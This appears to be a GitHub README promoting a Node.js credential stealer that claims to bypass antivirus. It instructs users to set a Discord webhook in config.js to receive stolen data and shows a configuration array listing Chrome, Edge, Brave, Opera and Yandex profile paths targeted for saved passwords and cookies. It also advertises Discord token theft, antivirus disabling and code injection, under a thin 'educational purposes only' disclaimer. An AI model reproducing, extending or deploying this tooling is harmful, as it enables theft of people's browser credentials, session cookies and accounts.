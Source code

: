 This app will copy this and bypass the antivirus program.
I made this app in 7 days so very hard.
Please do not use or recommend for malicious purposes. For educational purposes only.
Goto config.js & edit WEBHOOK to Your Webhook URL(Discord WEBHOOK)

password_and_cookies_paths: [
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Default\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 1\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 2\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 3\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 4\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 5\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Guest Profile\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Default\\Network\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 1\\Network\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 2\\Network\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 3\\Network\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 4\\Network\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Profile 5\\Network\\',
            process.env.LOCALAPPDATA + '\\Google\\Chrome\\User Data\\Guest Profile\\Network\\',
            process.env.APPDATA + '\\Opera Software\\Opera Stable\\',
            process.env.APPDATA + '\\Opera Software\\Opera GX Stable\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 1\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 2\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 3\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 4\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 5\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Guest Profile\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 1\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 2\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 3\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 4\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 5\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Guest Profile\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Default\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 1\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 2\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 3\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 4\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 5\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Guest Profile\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Network\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 1\\Network\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 2\\Network\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 3\\Network\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 4\\Network\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Profile 5\\Network\\',
            process.env.LOCALAPPDATA + '\\BraveSoftware\\Brave-Browser\\User Data\\Guest Profile\\Network\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 1\\Network\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 2\\Network\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 3\\Network\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 4\\Network\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Profile 5\\Network\\',
            process.env.LOCALAPPDATA + '\\Yandex\\YandexBrowser\\User Data\\Guest Profile\\Network\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Default\\Network\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 1\\Network\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 2\\Network\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 3\\Network\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 4\\Network\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Profile 5\\Network\\',
            process.env.LOCALAPPDATA + '\\Microsoft\\Edge\\User Data\\Guest Profile\\Network\\'
        ],
        
        so not only this :D & discord token & injecting pc & disabling antivirus while running & injecting binary code to special gateway
